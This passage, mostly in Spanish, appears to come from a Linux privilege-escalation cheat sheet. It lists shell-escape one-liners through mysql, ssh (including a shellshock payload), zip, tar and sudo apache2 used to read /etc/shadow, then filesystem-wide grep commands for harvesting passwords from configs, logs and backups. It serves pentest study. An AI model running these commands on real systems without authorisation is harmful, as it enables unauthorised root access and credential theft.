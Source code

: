   !/bin/sh

- Mysql

  mysql> \! /bin/bash

- ssh

  ssh user@XX -t "/bin/sh"

  ssh user@XX -t "bash --noprofile"

  ssh user@XX -t "() { :; }; /bin/bash" (shellshock)

- zip

  zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"

- tar

  tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash

- apache

  Apache -f utiliza la directiva del fichero de configuracion al arrancar
  Pero.....
  sudo apache2 -f <config_file>
  y si hacemos
  sudo apache2 -f /etc/shadow

#### Bala de plata VI: Password mining

##### Objetivos

Basicamente, buscar passwords donde sea.

Un buen sitio para empezar son los ficheros de configuración de los servicios, sobretodo aquellos servicios cuyo objetivo sea "compartir" y puedas necesitar autenticación, como smb, nfs, apache, etc...

##### Instrucciones

- grep -RiIn passw / 2>/dev/null: Recursivo, no case, número de linea, procesa un fichero binario como si no contuviera match
- grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
- /var/log/: Es posible que hayan passwords en los logs

###### Backups

Un recurso que nos puede proporcionar información valiosa es la busqueda de backups:

1. /root/
2. /tmp
3. /var/backups

#### Bala de plata VII: Wildcards

### Wildcards

Bash soporta "filename expension functionality" (globbing) (Filename expansion means expanding filename patterns or templates containing special characters. For example, example.??? might expand to example.001 and/or example.txt.)
El caracter * significa que hace mach con cualquier string
\* es remplazado por lista ordenada alfabeticamente
